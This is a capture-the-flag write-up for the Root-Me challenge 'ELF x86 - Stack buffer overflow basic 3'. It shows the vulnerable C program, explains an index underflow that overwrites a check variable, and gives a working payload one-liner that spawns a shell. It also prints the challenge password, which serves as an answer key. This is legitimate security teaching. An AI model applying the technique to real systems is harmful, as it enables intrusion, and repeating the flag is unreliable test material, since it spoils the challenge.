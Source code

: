 # ELF x86 - Stack buffer overflow basic 3
- Point: 25pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  10 April 2015
- Level: Medium <br><br>
![image](https://user-images.githubusercontent.com/48288606/143521039-c69b3f39-c52e-4551-b2fa-9facc7ca23cf.png)

## Write-up:
This challenge is not required to use **GDB**. Look at the code:

```
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```
We analyze the code, the variable **i** get 1 bytes of "stdin" and execute the below section, we only finish this challenge when we change the value of **check** to **0xbffffabc**<br>
**buffer** is declared before **check** and therefore **check** 's value can't be altered through upper overflow. <br><br>
![image](https://user-images.githubusercontent.com/48288606/143523511-fe54d69c-7f2b-4320-a4ba-667ce2f90df4.png)<br>

### Solution:
It's possible to make a change in **check** by lower overflow in **buffer** array. It's mean overwriting `buffer[-1]`, `buffer[-2]`,`buffer[-3]` and `buffer[-4]` revalues **check**.
With the program provided, we have 2 main functions:
- Make count increase or decrease by 1 (and print something that we don't care)
```
                case 0x08:
                  count--;
                  printf("\b");
                  break;
```

- Set **buffer** with **i** 's value
```
                default:
                  buffer[count] = i;
                  count++;
                  break;
```
So just enter **i** with **0x08** 4 times and assign the desired value **0xbffffabc** in little endian format.

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`
Then read the `.passwd` file.

Password: Sm4shM3ify0uC4n


